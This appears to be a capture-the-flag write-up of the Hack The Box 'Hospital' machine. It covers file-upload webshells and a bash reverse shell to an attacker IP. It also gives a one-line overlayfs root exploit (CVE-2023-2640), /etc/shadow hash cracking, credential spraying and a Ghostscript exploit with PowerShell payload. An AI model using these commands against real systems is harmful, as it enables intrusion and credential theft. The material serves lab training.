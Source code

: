 # [Hospital](https://app.hackthebox.com/machines/hospital)

```bash
nmap -p- --min-rate 10000 10.10.11.241 -Pn
```

![alt text](img/image.png)


With chaning rate (5000), I got new port which is `8080`.

```bash
nmap -p- --min-rate 5000 10.10.11.241 -Pn
```

![alt text](img/image-1.png)

After detection of open ports, let's do greater nmap scan for ports which sounds tricky.

```bash
nmap -A -sC -sV -p53,88,135,139,389,443,445,3389,8080 10.10.11.241 -Pn
```

![alt text](img/image-5.png)



I see `Roundcube Webmail` for port `443`.

![alt text](img/image-2.png)


I see some application for port `8080`.

![alt text](img/image-3.png)


Let's create account and fuzz features of this application.

Once we open `dashboard`, we see `upload` functionality.

![alt text](img/image-4.png)


Let's try to do `File Upload Vulnerability`.


I tried to upload `.php` webshell and it failed.

![alt text](img/image-6.png)


Let's fuzz extensions from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) and `.phar` type worked.

![alt text](img/image-7.png)


But I cannot see any output from my webshell execution.

![alt text](img/image-8.png)


Let's upload webshell via `.phar` extension by using `weevely` command.

First, we need to genereate webshell as below.
```bash
weevely generate dr4ks dr4ks.phar
```

![alt text](img/image-10.png)

Second, we need to upload this `dr4ks.phar` file into machine and run below command.

```bash
weevely http://10.10.11.241:8080/uploads/dr4ks.phar dr4ks
```

![alt text](img/image-9.png)


Let's add our reverse shell payload into here.
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.2/1337 0>&1"
```

![alt text](img/image-11.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-12.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-13.png)


Let's run `uname -a` to learn kernel's version.

![alt text](img/image-14.png)


I searched this kernel's version and find publicly known exploit whose id is [CVE-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629)

I run exploit code as below.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; bash")'
```

![alt text](img/image-15.png)


I am already root on `webserver`.


I just look at `/etc/shadow` to learn passwords of users.

![alt text](img/image-16.png)


Let's try to crack hash of `drwilliams` user via `hashcat`.

```bash
hashcat -m 1800 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-17.png)


drwilliams: qwe123!@#


Let's check this credentials against our target's `SMB` and `Winrm` via `crackmapexec`.
```bash
crackmapexec smb 10.10.11.241 -u "drwilliams" -p 'qwe123!@#'
crackmapexec winrm 10.10.11.241 -u "drwilliams" -p 'qwe123!@#'
```

![alt text](img/image-18.png)


Let's enumerate shares also via `smbmap` command.
```bash
smbmap -H 10.10.11.241 -u drwilliams -p'qwe123!@#'
```

![alt text](img/image-19.png)


Let's try to use credentials against `Roundcube` and it worked.

![alt text](img/image-20.png)


There's email in inbox about `Ghostscript` and I searched publicly known exploit for this software and find already.

![alt text](img/image-21.png)

That's [CVE-2023-36664](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection), let's use this.

```bash
python CVE_2023_36664_exploit.py --generate --filename needle --extension eps --payload "{powershell_base64_encoded_payload}"
```

![alt text](img/image-22.png)


Let's use this exploit.

![alt text](img/image-23.png)



Now, it's time to attach this maliicous file.

![alt text](img/image-24.png)


I got reverse shell from port `443`.

![alt text](img/image-25.png)


user.txt

![alt text](img/image-26.png)


While enumeration on machine, I find `ghostscript.bat` file on folder `C:\Users\drbrown.HOSPITAL\Documents` which contains sensitive credentials.

![alt text](img/image-27.png)


drbrown: chr!$br0wn


Let's check this credentials against SMB,WinRM via `crackmapexec`.

```bash
crackmapexec smb 10.10.11.241 -u "drbrown" -p 'chr!$br0wn'
crackmapexec winrm 10.10.11.241 -u "drbrown" -p 'chr!$br0wn'
```

![alt text](img/image-28.png)


Let's connect into machine via `evil-winrm`.

```bash
evil-winrm -i 10.10.11.241 -u "drbrown" -p 'chr!$br0wn'
```

![alt text](img/image-29.png)


While enumeration, I see that I have full privilege to `xampp` folder.

![alt text](img/image-30.png)


Let's upload php webshell into here and execute to learn what user is running, imp it is `administrator`.

I upload into `C:/xampp/htdocs` where `index.php` shows that `Roundcube` is used.

![alt text](img/image-31.png)


Let's browse this webshell.

![alt text](img/image-32.png)


Let's add our `powershell` reverse shell payload and `URL Encoding` to your payload.

![alt text](img/image-33.png)



Hola I got reverse shell from port `2024`.

![alt text](img/image-34.png)

root.txt

![alt text](img/image-35.png)